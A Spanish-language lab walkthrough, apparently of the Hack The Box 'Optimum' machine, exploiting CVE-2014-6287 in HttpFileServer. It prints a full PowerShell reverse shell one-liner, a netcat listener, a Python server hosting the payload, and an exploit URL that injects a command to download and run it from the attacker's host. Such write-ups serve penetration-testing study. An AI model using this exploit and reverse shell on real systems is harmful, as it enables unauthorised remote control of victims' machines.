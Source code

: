 #CVE-2014-6287

------

Vamos a crear un archivo reverse.ps1 con el siguiente payload. Esto lo sacamos de [payloadallthethings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)

![[Optimum10.png]]
Vamos a usar el script de [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1) para mandarnos la [[Reverse shell]]

```ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


Vamos a estar hosteando el archivo con un server de [[python3 -m http.server]] con el comando `python3 -m http.server 80` para que se descarge el archivo *reverse.ps1* con el cual vamos a inyectar el payload

![[Optimum9.png]]
Mientras estamos en escucha con [[rlwrap nc -lvnp 443]] 

Ejecutamos la vulnerabilidad mediante este link, solamente cambiando la ip desde la cual se va a descargar el archivo

`http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString(%27http%3a//10.10.16.15/reverse.ps1%27).}`

![[Optimum7 1.png]]
Ya estamos adentro de la maquina
